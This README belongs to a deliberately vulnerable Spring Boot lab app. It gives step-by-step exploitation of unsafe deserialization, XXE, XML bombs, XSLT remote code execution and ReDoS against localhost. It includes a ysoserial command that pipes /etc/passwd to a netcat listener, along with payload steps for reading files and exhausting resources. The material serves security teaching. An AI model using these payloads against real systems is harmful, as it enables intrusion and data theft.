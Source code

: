 # Spring Boot - Backend vulnerabilities examples

## Movies with exploitation of:
### unsafe Java object deserialization
https://drive.google.com/open?id=1YmJzBR355nG0v9avQdMEbOX7ddq99-N_
### XML External Entity (XXE)
https://drive.google.com/open?id=1j6UKJ1fp96cjEh2Cc18N9stsNgGcj2Pg
### XML bombs
https://drive.google.com/open?id=1FVg0YzWJyiSPPx3SPB7FBa3iYFuGTgTe
### RCE with XSLT
https://drive.google.com/open?id=1rBPmZQQ5y13uCjRMvdu_f0Zi8eKJDuuo
### ReDoS
https://drive.google.com/open?id=1_gjB1LlI_IvASfAKtE-eLKBGFIT1Oh_S

## Run & exploit

### Payloads
Payloads for exploitation can be found in payload folder of the project and its subdirectories.

### Unsafe Java object deserialization
- Generate payload with ysoserial toolkit (https://github.com/frohoff/ysoserial)
`java -jar ysoserial.jar CommonsCollections5 'bash -c {cat,/etc/passwd}|{nc,127.0.0.1,1234}' > serialization_issue.dat`
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee'
- Upload 'serialization_issue.dat' prepared with ysoserial toolkit
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### XML External Entity (XXE)
- Run application
`mvn spring-boot:run`
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XEE' from imported collection
- Check response of server to read /etc/passwd content

### XML bombs
- Run application with additional parameters
`mvn spring-boot:run -Djdk.xml.entityExpansionLimit=0 -Djdk.xml.entityReplacementLimit=0 -Djdk.xml.totalEntitySizeLimit=0`
Note that you turn off upper boundary limits for XML parser. Additional `-Xmx1024m` parameter could be added in case memory would be consumed too quickly.
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XML Bomb' from imported collection
- Monitor usage of CPU and Memory for java process

### RCE with XSLT
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee-xslt'
- Copy payload available in file 'xml_payload_attendee.txt' to field with 'XML' label
- Copy payload available in file 'xslt_payload_attendee.txt' to field with 'XSLT' label
- Press 'Transform button'
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### ReDoS
- Run application
`mvn spring-boot:run`
- Open in browser 'http://localhost:8080/attendeemng'
- Fill in fields 'First Name', 'Last Name' with arbitrary values
- Fill in 'Email' field with multiple 'a' characters eg. 'aaaaaaaaaaaaaaaaaaaaaaaaaa' and press 'Add Attendee'
- Retry addition of attendee with email that has additional 'a' characters until validation doesn't finish in "reasonable" time amount.
